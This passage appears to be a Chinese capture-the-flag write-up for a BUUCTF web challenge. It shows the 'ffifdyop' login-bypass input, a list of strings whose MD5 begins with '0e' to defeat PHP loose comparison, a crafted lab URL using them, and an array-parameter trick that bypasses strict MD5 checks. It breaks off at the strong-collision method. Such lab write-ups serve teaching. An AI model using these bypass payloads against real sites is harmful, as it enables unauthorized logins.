 3、提交 ffifdyop 进行查询，跳转下一页面：

<img src="https://img-blog.csdnimg.cn/202008211910392.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 查看源码：

<img src="https://img-blog.csdnimg.cn/2020082119113484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

典型的 md5 碰撞嘛，这个是弱比较，所以可以用md5值为0e开头的来撞。

>  
 【MD5弱碰撞】 PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，**它把每一个以”0E”开头的哈希值都解释为0**，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。攻击者可以利用这一漏洞，通过输入一个经过哈希后以”0E”开头的字符串，即会被PHP解释为0，如果数据库中存在这种哈希值以”0E”开头的密码的话，他就可以以这个用户的身份登录进去，尽管并没有真正的密码。 


这里提供一些 md5 以后是 0e 开头的值：

```
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020

s155964671a
0e342768416822451524974117254469

s214587387a
0e848240448830537924465865611904

s214587387a
0e848240448830537924465865611904

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675


```

4、于是构造`http://37d8016d-643c-4764-8e62-c8a24e224a75.node3.buuoj.cn/levels91.php?a=QNKCDZO&amp;b=s878926199a`即可绕过并跳转到新的页面：

<img src="https://img-blog.csdnimg.cn/20200821191422279.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 这里可以用两个方法解决：

**（1）可以利用数组**：md5强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等。故构造：`param1[]=111&amp;param2[]=222`即可。

>  
 【解析】md5() 或者 sha1() 之类的哈希函数计算的是一个字符串的哈希值，对于数组则返回 false，如果`$param1`和`$param2`都是数组则双双返回 FALSE, 两个 FALSE 相等故得以绕过。 


**（2）利用 md5 值的强碰撞**：找到两个md5值相同的字符串即可。
